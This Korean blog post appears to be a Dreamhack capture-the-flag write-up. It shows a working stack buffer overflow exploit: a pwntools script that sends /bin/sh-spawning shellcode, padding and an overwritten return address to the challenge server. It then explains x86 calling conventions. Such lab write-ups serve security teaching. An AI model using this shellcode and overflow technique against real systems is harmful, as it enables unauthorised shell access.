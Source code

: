 ```yaml
---
title: "(Dreamhack) basic_exploitation_000"
date: 2021-02-24 05:24:00 -0400
categories: Security
---
```


## 문제 풀이

buf가 지역 변수로 0x80만큼 할당이 되어 있고, 이를 통해 ret 주소와 132바이트만큼 차이난다는 것을 알 수 있다. (buf크기 128바이트 +sfp 4바이트)

![image](https://user-images.githubusercontent.com/24788751/108988447-d182f980-76d7-11eb-90e2-92608229fa4f.png)

![image](https://user-images.githubusercontent.com/24788751/108988382-bdd79300-76d7-11eb-9245-e8f38c8e64c2.png)
IDA를 이용하여 살펴본 스택 공간


``` Python
from pwn import *

proc = remote("host1.dreamhack.games", 15867)

proc.recvuntil("buf = (")
bufAddr = int(proc.recv(10), 16)
shellcode = "\x31\xc0\x50\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x31\xc9\x31\xd2\xb0\x08\x40\x40\x40\xcd\x80"
shellcode += "\x80" * 106
shellcode += str(p32(bufAddr))
proc.send(shellcode)

proc.interactive()
```

buf 공간에 26바이트의 쉘 코드와 아무 의미 없는 'A'를 106바이트만큼 채워주고 ret 주소에 buf 주소가 오버플로우될 수 있도록 하였다.

![image](https://user-images.githubusercontent.com/24788751/108981294-f1aeba80-76cf-11eb-8786-58c69bc1508a.png)

## 함수 호출 방식
함수를 호출하는 과정에서 매개변수, 리턴 주소 등을 어떻게 스택에 넣고 정리할 지 정하는 **함수 호출 규약**

![image](https://user-images.githubusercontent.com/24788751/108988472-d9429e00-76d7-11eb-9eaf-b73e7e5238fa.png)

sum(a, b)를 호출했다고 가정하자

### _cdecl
_cdecl은 c언어에서의 기본 함수 호출 규약이다. 스택을 사용하여 함수 외부에서 공간을 정리한다. (스택 정리는 caller가 함)
``` c
push b
push a
call sum()
add esp, 8
```

### _stdcall
_stdcall은 스택을 사용하여 함수 내부에서 공간을 정리한다. WINAPI에서 많이 사용한다. (스택 정리는 callee가 함)

``` c
push b
push a
call sum()
```
함수 리턴시 ret * 8 수행

### _fastcall
다른 호출 규약과 달리 레지스터를 이용한다. 레지스터를 이용하므로 속도가 빠르지만 경우에 따라 코드가 길어질 수 있다.
``` c
mov edx, b
mov ecx, a
call sum()
```

### _thiscall
c++에서 사용하는 호출규약으로 _stdcall과 비슷한 구조를 갖는다.
``` c
push b
push a
lea ecx, [ebx - 4]
call sum()
```
c++에서 자기 자신을 가리키는 this 포인터의 주소가 ecx 레지스터에 담기게 된다.